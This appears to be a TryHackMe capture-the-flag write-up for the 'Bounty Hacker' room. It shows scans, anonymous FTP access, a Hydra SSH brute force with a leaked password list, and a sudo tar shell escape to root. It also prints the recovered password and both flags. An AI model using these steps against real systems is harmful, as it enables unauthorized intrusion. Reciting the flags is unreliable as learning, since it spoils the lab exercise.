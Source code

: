 ## Bounty Hacker - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/cowboyhacker)

<i>You were boasting on and on about your elite hacker skills in the bar and a few Bounty Hunters decided they'd take you up on claims! Prove your status is more than just a few glasses at the bar. I sense bell peppers & beef in your future!</i> 

**IP: 10.10.192.55**

---

## 📌 General Information

**Room Difficulty**: Easy  <br>

**Room Type**: Linux Privilege Escalation, Brute Force <br>

**Tools Used**: Nmap, Gobuster, Hydra<br>

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20CUT.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- As always start with Nmap and Gobuster.

  ```
  nmap -sC -sV -T5 -p- 10.10.192.55

  PORT   STATE SERVICE VERSION
  21/tcp open  ftp     vsftpd 3.0.3
  | ftp-syst: 
  |   STAT: 
  | FTP server status:
  |      Connected to ::ffff:10.8.120.52
  |      Logged in as ftp
  |      TYPE: ASCII
  |      No session bandwidth limit
  |      Session timeout in seconds is 300
  |      Control connection is plain text
  |      Data connections will be plain text
  |      At session startup, client count was 4
  |      vsFTPd 3.0.3 - secure, fast, stable
  |_End of status
  | ftp-anon: Anonymous FTP login allowed (FTP code 230)
  |_Can't get directory listing: TIMEOUT
  22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   2048 dc:f8:df:a7:a6:00:6d:18:b0:70:2b:a5:aa:a6:14:3e (RSA)
  |   256 ec:c0:f2:d9:1e:6f:48:7d:38:9a:e3:bb:08:c4:0c:c9 (ECDSA)
  |_  256 a4:1a:15:a5:d4:b1:cf:8f:16:50:3a:7d:d0:d8:13:c2 (ED25519)
  80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
  |_http-server-header: Apache/2.4.18 (Ubuntu)
  |_http-title: Site doesn't have a title (text/html).
  Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
  ```

  ```
  gobuster dir -u http://10.10.192.55/ -w /usr/share/wordlists/dirb/common.txt 

  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.htaccess            (Status: 403) [Size: 277]
  /.hta                 (Status: 403) [Size: 277]
  /.htpasswd            (Status: 403) [Size: 277]
  /images               (Status: 301) [Size: 313] [--> http://10.10.192.55/images/]
  /index.html           (Status: 200) [Size: 969]
  /server-status        (Status: 403) [Size: 277]
  Progress: 4614 / 4615 (99.98%)
  ===============================================================
  Finished
  ===============================================================
  ```
  
- When I visited web page I found nothing except GOATEST ANIME EVER OFC!!! ❤️
  
- Since we can login as Anonymous with FTP, let's do that. There's two files in that directory, get them both to your Kali.

  ```
  ftp 10.10.192.55
  Anonymous
  
  
  ftp> ls
  229 Entering Extended Passive Mode (|||64010|)
  pwd
  ^C
  receive aborted. Waiting for remote to finish abort.
  ftp> 
  ftp> passive
  Passive mode: off; fallback to active mode: off.
  ftp> ls
  200 EPRT command successful. Consider using EPSV.
  150 Here comes the directory listing.
  -rw-rw-r--    1 ftp      ftp           418 Jun 07  2020 locks.txt
  -rw-rw-r--    1 ftp      ftp            68 Jun 07  2020 task.txt
  226 Directory send OK.
  ftp> pwd
  Remote directory: /

  cat task.txt    
  1.) Protect Vicious.
  2.) Plan for Red Eye pickup on the moon.
  
  -lin
  
  cat locks.txt 
  rEddrAGON
  ReDdr4g0nSynd!cat3
  Dr@gOn$yn9icat3
  R3DDr46ONSYndIC@Te
  ReddRA60N
  R3dDrag0nSynd1c4te
  dRa6oN5YNDiCATE
  ReDDR4g0n5ynDIc4te
  R3Dr4gOn2044
  RedDr4gonSynd1cat3
  R3dDRaG0Nsynd1c@T3
  Synd1c4teDr@g0n
  reddRAg0N
  REddRaG0N5yNdIc47e
  Dra6oN$yndIC@t3
  4L1mi6H71StHeB357
  rEDdragOn$ynd1c473
  DrAgoN5ynD1cATE
  ReDdrag0n$ynd1cate
  Dr@gOn$yND1C4Te
  RedDr@gonSyn9ic47e
  REd$yNdIc47e
  dr@goN5YNd1c@73
  rEDdrAGOnSyNDiCat3
  r3ddr@g0N
  ReDSynd1ca7e
  ```

- Beautiful, we even have brute force material, let's do it.

  ```
  hydra -l lin -P locks.txt 10.10.192.55 ssh
  [22][ssh] host: 10.10.192.55   login: lin   password: RedDr4gonSynd1cat3
  1 of 1 target successfully completed, 1 valid password found
  ```

---

## 🧍 User Privilege Escalation

- After logging in with SSH, first flag is already there. Moving to root flag.

  ```
  lin@bountyhacker:~/Desktop$ pwd
  /home/lin/Desktop
  
  lin@bountyhacker:~/Desktop$ ls
  user.txt
  
  lin@bountyhacker:~/Desktop$ cat user.txt 
  THM{CR1M3_SyNd1C4T3}
  ```
  
---

## 👑 Root Privilege Escalation

- For this one `sudo -l` did all the job, you can find the exploit on GTFOBins.

  ```
  lin@bountyhacker:~/Desktop$ sudo -l
  [sudo] password for lin: 
  Matching Defaults entries for lin on bountyhacker:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User lin may run the following commands on bountyhacker:
      (root) /bin/tar
  
  lin@bountyhacker:~/Desktop$ sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
  tar: Removing leading `/' from member names
  # whoami
  root
  # id
  uid=0(root) gid=0(root) groups=0(root)
  # cat /root/root.txt
  THM{80UN7Y_h4cK3r}
  ```
  
- That's all folks, I still can't believe that I did this CTF in less than 5 minutes lol. Happy Hacking!

---

## 🏁 Flags

- **User Flag**: `THM{CR1M3_SyNd1C4T3}`
- **Root Flag**: `THM{80UN7Y_h4cK3r}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `/`

- What did I learn?
  `That I improved my skills a lot, I finished this CTF in less than 5 min. Started at 22:03 and finished at 22:07.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
